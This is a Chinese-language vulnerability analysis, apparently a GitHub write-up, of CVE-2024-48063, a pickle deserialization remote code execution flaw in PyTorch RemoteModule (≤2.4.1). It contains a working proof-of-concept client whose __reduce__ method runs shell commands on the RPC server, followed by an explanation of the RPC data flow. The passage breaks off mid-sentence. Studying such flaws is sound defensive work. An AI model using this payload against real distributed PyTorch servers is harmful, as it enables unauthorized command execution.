


# PyTorch RemoteModule模块反序列化RCE漏洞

# 漏洞环境

- PyTorch ≤ 2.4.1
- 使用 cpu 而不是 CUDA 张量，因为在使用 CUDA 张量的情况下不支持 RemoteModule

# 漏洞复现步骤

1. 用`conda`创建虚拟环境安装

   ```shell
   conda create -n CVE-2024-48063 python=3.9
   ```

2. pip 安装 `torch2.4.1`

   ```shell
   pip install torch==2.4.1 torchvision==0.19.1 torchaudio==2.4.1 --index-url https://download.pytorch.org/whl
   ```

3. 创建服务端

   ```python
   # server.py
   import torch
   import torch.distributed.rpc as rpc
   
   
   def run_server():
       # 初始化RPC环境，指定服务端名称、排名和世界大小
       rpc.init_rpc(name="server", rank=0, world_size=2)
   
       # 保持服务端运行，等待来自客户端的RPC请求
       rpc.shutdown()
   
   if __name__ == "__main__":
       run_server()
   ```

4. 创建用户端

   ```python
   # client.py
   import torch
   import torch.distributed.rpc as rpc
   from torch.distributed.nn.api.remote_module import RemoteModule
   import torch.nn as nn
   
   # 定义一个简单的神经网络模型
   class MyModel(nn.Module):
       def __init__(self):
           super(MyModel, self).__init__()
           self.linear = nn.Linear(1, 1)
   
       # 定义一个魔术方法
       def __reduce__(self):
           return (__import__('os').system, ("id;ls",))
   
   def run_client():
       # 初始化RPC环境，指定客户端名称、排名和世界大小
       rpc.init_rpc(name="client", rank=1, world_size=2)
   
       # 远程调用服务器端的函数
       remote_model = RemoteModule(
           "server",
           MyModel(),
           args=()
       )
       
       input_tensor = torch.tensor([1.0, 2.0])
       output = remote_model(input_tensor)
   
       print(f"Output from server: {output}")
   
       rpc.shutdown()
                                    
   if __name__ == "__main__":
       run_client()
   ```

5. 运行服务端，运行用户端，攻击完成

# 漏洞原理

## PyTorch分布式

​		PyTorch分布式库包含一组并行模块、<font color="red">通信层</font>以及用于启动和调试大型训练作业的基础设施

## 分布式通信包 - torch.distributed

​		`torch.distributed`支持三个内置后端，每个后端有不同的功能。这里的后端指的是用于在多台机器或多个进程之间进行通信和同步的底层技术和协议。不同的后端适用于不同的环境和应用需求，主要影响分布式训练的性能、可扩展性和兼容性等方面。

- **Gloo**：一个通用的系统，适用于大多数情况下的进程间通信（IPC），并且可以在TCP和共享内存之上运行。
- **MPI (Message Passing Interface)**：一种广泛使用的接口规范，用于编写并行计算机程序。
- **NCCL (NVIDIA Collective Communications Library)**：针对NVIDIA GPU优化的库，提供了高效的集合通信原语，如all-reduce，尤其适合多GPU环境。

## 分布式RPC框架

​		提供了一套用于多机模型训练的机制，通过一组用于远程通信的原语以及一个更高级别的API来自动微分跨多个机器拆分的模型。RPC的实现依赖于`torch.distributed`的后端来进行实际的消息传递和数据传输。当通过 RPC 调用远程函数时，后端负责将调用请求和相关参数发送到目标进程，并将目标进程的返回结果传递回调用方。

## RemoteModule模块

​		`RemoteModule`是一种在不同进程上远程创建`nn.Module`的简便方法。 其简要的工作流程如下：

​		1、**初始化 RPC：**首先初始化 RPC 并选择后端。这一步设置进程之间的通信通道

​		2、**创建 RemoteModule：**当在本地代码中创建 RemoteModule 时， RPC系统会在指定的目标机器上执行模块的构造函数来构建一个真正的模型实例。<font color="honydew">这个过程通过序列化传递给远程机器的构造参数并反序列化它们来完成的。</font>

​		3、**调用远程方法：**一旦 RemoteModule 被创建，你可以像使用本地模块一样调用它的方法。这时 RPC 系统会负责将输入数据发送给远程机器。在那里，数据会被传入模型计算，计算结果会通过 RPC 通信返回给发起请求的本地机器。

## 数据流

### Client 端

​		在 client 调用 RemoteModule 构造函数并传入 MyModel 对象作为参数时，在 RemoteModule 中会自动调用父类 `_RemoteModule` 的初始化函数 `__init__`，由于参数 `_module_interface_cls` 默认为 None，程序会进入到 else 分支并执行 `rpc.remote()` 函数：



​		在 remote 函数中，先用 `torch.jit._builtins._find_builtin(func)` 来判断函数 func 是否已经在内置表[^1]中有对应的记录。如果找到了，那么它会返回与这个函数关联的序列化信息或者处理逻辑；如果没有找到，则返回 None 或者默认值。显然，用户定义的函数不在这张表中，故继续判断 `isinstance(func, torch.jit.ScriptFunction)` 即 func 是否是 `torch.jit.ScriptFunction` 类型[^2]。显然用户自定义的函数并没有使用过 `TochScript` 来编译，故程序会进入 else 分支，执行 `_default_pickler.serialize()` 函数。



​		而


[^1]: 在 PyTorch 仓库中 torch/jit 模块中的 `_builtins.py` 负责定义 Python 内置函数与 PyTorch 内部操作（aten）之间的映射。其中维护了一张内置表，它映射了用户定义的函数或类到它们对应的序列化标识符。这个表用于加速和简化函数或类的序列化和反序列化过程：这样的机制可以确保一些常用的、内置的或者是特别注册过的函数能够在不同进程间高效地传递，而不需要每次都对它们进行完整的序列化操作。这有助于提高性能并减少通信开销。
[^2]: `torch.jit.ScriptFunction` 是 PyTorch 中用于表示通过 TorchScript 编译的函数的一个类。TorchScript 是 PyTorch 的一种中间表示（IR），它允许将 Python 代码转换为可以独立于 Python 解释器运行的序列化模型或函数。这使得模型可以在没有 Python 环境的情况下部署。当开发者编写一个函数并希望将其转换为 `torch.jit.ScriptFunction` 时，可以使用 `torch.jit.script` 函数来编译它。如果有一个已经存在的模块并且想要编译整个模块，则可以使用 `torch.jit.trace` 或 `torch.jit.script` 方法。